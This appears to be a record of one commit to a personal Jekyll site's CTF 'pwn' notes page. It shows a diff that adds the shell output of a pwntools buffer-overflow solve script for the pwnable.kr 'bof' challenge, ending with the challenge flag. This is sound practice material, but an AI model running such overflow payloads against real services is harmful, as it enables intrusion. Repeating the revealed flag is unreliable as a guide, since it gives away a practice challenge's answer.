

Before and after one commit to Connor-McCartney/Connor-McCartney.github.io, a Jekyll site: the page built from _pages/misc/pwn.md, in a window 1280 px wide and 900 px high, scrolled down 20378 px. Shown: the top 874 px of the window, without its empty margins (0-640 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; before the commit the page ends 20963 px from its top, so only the background shows below that.

Commit message:
Update pwn.md

````diff
--- a/_pages/misc/pwn.md
+++ b/_pages/misc/pwn.md
@@ -845,8 +845,21 @@ pwndbg> x $ebp+8
 from pwn import p32, remote
 
 io = remote("pwnable.kr", 9000)
-print(io.read())
 payload = b"A"*52 + p32(0xcafebabe)
 io.sendline(payload)
 io.interactive()
 ```
+
+```
+$ p solve.py
+[+] Opening connection to pwnable.kr on port 9000: Done
+[*] Switching to interactive mode
+$ ls
+bof
+bof.c
+flag
+log
+super.pl
+$ cat flag
+daddy, I just pwned a buFFer :)
+```
````
